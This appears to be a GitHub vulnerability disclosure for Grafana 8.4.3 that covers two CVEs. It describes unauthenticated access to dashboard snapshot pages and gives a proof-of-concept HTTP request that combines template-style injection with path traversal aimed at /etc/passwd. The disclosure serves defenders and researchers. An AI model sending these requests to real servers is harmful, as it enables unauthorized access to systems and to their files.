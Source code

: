 # grafana
grafana 8.4.3 (b7d2911ca)

# First point - CVE-2022-32276

## Unauthenticated and authenticated users can send a false request for snapshot query using random key parameters, having access to the system dashboard area by going through the login page.
•	Rated version: 8.4.3 (b7d2911ca)
•	
Access the system the user is directed to the system home page, as image 1
![image](https://user-images.githubusercontent.com/28454566/171639021-9b0da9c7-837d-4f86-be73-a123eae5de9b.png)

Image 1: login form 


It has been verified that an unauthenticated user knowing the vulnerable directories can enter random ID value which allows unauthenticated access to the hospitalized system pages.
Parameter used:
/dashboard/snapshot/*?orgId=0
/invite/:
![image](https://user-images.githubusercontent.com/28454566/171639130-8e408037-3e65-4b15-a679-88e2f1987aea.png)

Image 2: Unauthenticated access to snapshot list

![image](https://user-images.githubusercontent.com/28454566/171639178-52a2f5d5-f57c-49b9-9258-2f60a3b6403a.png)

Image 3: Unauthenticated access to the dashboard menu


![image](https://user-images.githubusercontent.com/28454566/171639388-3b17937c-e1f5-448f-b5cb-f26722af95f9.png)

Image 4: Unauthenticated access to the filter menu


# Second point - CVE-2022-32275

##
•	Rated version: 8.4.3 (b7d2911ca)
•	Injection of parameters in http request.
## The failure is not a path traversal, but a session control failure. When the traversal path is explored, the authentication system redirects to an internal system page that should only be accessed by authenticated users.

![image](https://user-images.githubusercontent.com/28454566/171640044-cf2029dc-8598-44f9-87ed-c6c09a152212.png)

Image 5: login form 



Viewing the request in burpsuite
![image](https://user-images.githubusercontent.com/28454566/171640173-5795e0b0-0f31-4cac-8ae5-5d413b0637d1.png)

Image 6: Intercepting the request by burpsuite


Change the request by adding /{{constructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 , encode : /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1



![image](https://user-images.githubusercontent.com/28454566/171640263-15364ef7-8741-40e2-98dd-dee80b44b28d.png)

Image 7: Request changed before submission to server


![image](https://user-images.githubusercontent.com/28454566/171640314-914a29f3-2f98-4ff2-9dc7-eaf7896e1d56.png)


Image 8: Data returned from the tampered request



### POC 2
Send the request to the Burpsuite Repeater  function and change the request header to:

```
GET /dashboard/snapshot/%7B%7Bconstructor.constructor'/.. /.. /.. /.. /.. /.. /.. /.. /etc/passwd?orgId=1 HTTP/1.1
Host: <grafana_host>:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-BR,en;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close-up
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



![image](https://user-images.githubusercontent.com/28454566/171640452-7d292f9f-c35e-4067-b199-2ae9dea9ecbd.png)

Image 9: Changing the request in the repeater function.


![image](https://user-images.githubusercontent.com/28454566/171640507-360ce5d1-4486-4f29-adc4-a047e5655bfc.png)


Image 10: Unauthenticated access 



## References:
<li>https://cwe.mitre.org/data/definitions/1345.html</li>
<li>https://cwe.mitre.org/data/definitions/284.html</li>
<li>https://cwe.mitre.org/data/definitions/552.html</li>
<li>https://cwe.mitre.org/data/definitions/548.html</li>
<li>https://cwe.mitre.org/data/definitions/706.html</li>
<li>https://owasp.org/www-pdf-archive/OWASP_SCP_v1.3_pt-BR.pdf</li>
</ol>



